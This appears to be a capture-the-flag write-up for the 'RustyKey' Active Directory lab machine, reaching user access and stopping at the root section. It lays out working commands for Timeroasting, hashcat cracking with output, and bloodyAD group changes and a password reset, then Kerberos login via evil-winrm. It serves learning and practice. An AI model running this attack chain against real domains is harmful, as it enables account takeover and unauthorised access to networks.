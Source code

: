 
![](rusty-info.png)


## INFO_

```
Machine Information
As is common in real life Windows pentests, you will start the RustyKey box with credentials for the following account: rr.parker / 8#t5HE8L!W3A
```

```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```

```
(NTLM:False) --> So need to authenticate with Kerberos !
```

```
bloodhound-python --domain rustykey.htb --domain-controller dc.rustykey.htb --nameserver 10.10.11.75 --username rr.parker --password '8#t5HE8L!W3A' --collectionmethod all --dns-tcp --zip
```

```ldap
nxc ldap rustykey.htb -u rr.parker -p '8#t5HE8L!W3A' -k --users
```



## USER.TXT
### [Timeroast Attack](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/timeroasting)

```
1. The target must be a computer account; ordinary user accounts cannot be directly targeted (unless "Target Timeroasting" is used to modify properties).
   
2. The target domain controller must have the NTP service running with Microsoft SNTP Extended Authentication (MS-SNTP) enabled and responding, with UDP port 123 open.
   
3. The attacker can send unauthenticated MS-SNTP requests to the DC (without valid credentials).
   
4. The attacker can enumerate the RIDs (Relative Identifiers) of computer accounts in the domain.
   
5. (Optional) For "Target Timeroasting," domain administrator privileges are required to temporarily modify user account properties to treat them as computer accounts.

6. The computer account passwords in the domain are not strongly protected (e.g., weak passwords or not regularly changed).
```


```
python timeroast.py DC.rustykey.htb
```

![](rusty-timerroast.png)


We need to donwload the latest version of hashcat inorder to crack the SNTP [Hash](https://hashcat.net/hashcat/).


```hashcat
└─# ./hashcat.bin -m 31300 -a 0 ../hash_ /usr/share/wordlists/rockyou.txt -O
```


```bash
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$sntp-ms$d7e7fef91094a412a2e8cb82c7716f1a$1c0111e900000000000a10504c4f434cec0d09c52308c3f3e1b8428bffbfcd0aec0d1f46bb191728ec0d1f46bb193052:Rusty88!
Approaching final keyspace - workload adjusted.
```


The IT-Computer3 account got a lot of power and privileges ; Lets pwn this DC. 

![](Blood-Rusty.png)


```
bloodyAD --host 'DC.rustykey.htb' --domain rustykey.htb --username 'IT-Computer3$' --password 'Rusty88!' -k add groupMember "HelpDesk" "IT-Computer3$"

[+] IT-Computer3$ added to HelpDesk
```

```
bloodyAD --host 'DC.rustykey.htb' --domain rustykey.htb --username 'IT-Computer3$' --password 'Rusty88!' -k set password "bb.morgan" "p@ssw0rd"

[+] Password changed successfully!
```

```
└─# nxc ldap rustykey.htb -u bb.morgan -p p@ssw0rd -k
[-] rustykey.htb\bb.morgan:p@ssw0rd KDC_ERR_ETYPE_NOSUPP

This measns the user bb.morgan is on the protected-user group.
```

Remove the IT Group from Protected Objects !

```
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'IT' 
[-] IT removed from PROTECTED OBJECTS
```

Cool Now this bb.morgan can winrm to the box via kerberos; 

```
nxc smb 10.10.11.75 -u rr.parker -p '8#t5HE8L!W3A' --generate-krb5-file krb5.conf -k

--> The file looks like ::

[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = RUSTYKEY.HTB

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
        default_domain = rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB


--> Then, move krb5.conf file , now we log-in ::

mv krb5.conf /etc/krb5.conf            


impacket-getTGT rustykey.htb/bb.morgan:'p@ssw0rd'

export KRB5CCNAME=bb.morgan.ccache


evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB


As, we need to login with kerberos , there might be problem with Clock Skew , 
using this command # faketime '2025-10-04 14:13:27' $Command !!
```


![](rusty-user.png)


## ROOT.TXT

Let's check what's inside the internal.pdf !!

